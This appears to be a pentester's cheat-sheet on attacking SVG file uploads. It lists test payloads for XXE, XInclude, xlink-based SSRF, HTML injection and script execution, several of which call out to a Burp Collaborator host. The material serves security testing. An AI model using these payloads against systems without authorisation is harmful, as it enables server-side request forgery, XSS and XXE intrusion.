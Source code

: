 ```yaml
---
layout: note
title: "File Upload Exploits"
category: Web
---
```


# File Upload Exploits

## SVG

Beware that SVGs can be imported from many other formats!

Remember to include namespaces:  
```xml
<svg width="255px" height="255px" xmlns="http://www.w3.org/2000/svg" xmlns:xi="http://www.w3.org/2001/XInclude"
  xmlns:xlink="http://www.w3.org/1999/xlink" xmlns:xhtml="http://www.w3.org/1999/xhtml"  version="1.1">
</svg>
```

### Testing guide

#### Check for XXE
```javascript
<!DOCTYPE svg [ <!ENTITY ext PUBLIC "http://burpcollaborator.net/"> ]>
```
```javascript
<!DOCTYPE svg [
  <!ENTITY % init SYSTEM "data://text/plain;base64,aHR0cDovL2l4anBvYXo3YXZnZTVhN3g0ZmYxaTZ5anZhMTFwcS5idXJwY29sbGFib3JhdG9yLm5ldC8=">
%init; ]>
```

#### Check for XInclude attacks
```xml
<xi:include parse="text" href="htpp://burpcollaborator.net/"/>
```

#### Test wether the server will try to load xlinked hrefs:
```xml
<image href="http://burpcollaborator.net/" height="55" width="55"/>
```
If this works it might be of interest to check whether you could at least display some html:
```xml
<foreignObject x="20" y="20" width="160" height="160">
  <div xmlns="http://www.w3.org/1999/xhtml">
    Lorem ipsum dolor sit amet, consectetur adipiscing elit.
    Sed mollis mollis mi ut ultricies. Nullam magna ipsum,
    porta vel dui convallis, rutrum imperdiet eros. Aliquam
    erat volutpat.
  </div>
</foreignObject> -->
```
And other ways to display text:
```xml
<tref xlink:href="http://burpcollaborator.net/text.txt"/>
```

#### Test for javascript execution
```xml
<handler xmlns:ev="http://www.w3.org/2001/xml­-events" ev:event="load">
  var xhr = new XMLHttpRequest(); xhr.open("GET", "http://burpcollaborator.net/"); xhr.send();
</handler>
```
```xml
<circle cx="50" cy="50" r="45" fill="green" id="foo"
  onload="document.getElementById('foo').setAttribute('fill', 'blue');"/>
```

### Attack surface
- **SSRF**
- **XSS** on the behalf of the server - might exist a better terminology for this
- **XXE**

### Resources
[Blackhat old exploits for browsers](https://www.blackhat.com/docs/us-14/materials/us-14-DeGraaf-SVG-Exploiting-Browsers-Without-Image-Parsing-Bugs.pdf)  
[Fingerprinting libraries with blind SVG XLINK SSRF](https://medium.com/@arbazhussain/svg-xlink-ssrf-fingerprinting-libraries-version-450ebecc2f3c)
